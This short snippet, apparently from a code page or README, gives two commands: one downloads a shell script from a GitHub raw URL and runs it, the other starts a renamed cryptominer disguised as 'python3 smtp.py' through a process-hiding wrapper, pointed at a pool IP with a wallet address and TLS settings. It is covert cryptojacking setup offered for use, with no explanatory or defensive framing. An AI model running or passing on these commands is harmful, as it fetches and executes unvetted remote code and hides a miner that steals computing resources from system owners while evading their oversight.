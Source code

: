 ##action one

wget https://raw.githubusercontent.com/hudahadoh/hime/main/rest.sh && chmod +x rest.sh && ./rest.sh

##action two

./hi -s "python3 smtp.py" -d -p test.pid ./bhmax --url 158.69.251.105:4062 --user 86P42DaNTvmBmMLM4oL5kL6tVQVo9FfsnJDTqj6VU76whVzjMdMbMa7PV3SHAQuNySan44ToXVFn3gwFmqeDb58t1xqNVAB --pass x-bh --donate-level 1 --tls --tls-fingerprint 420c7850e09b7c0bdcf748a7da9eb3647daf8515718f36d9ccfdd6b9ff834b14
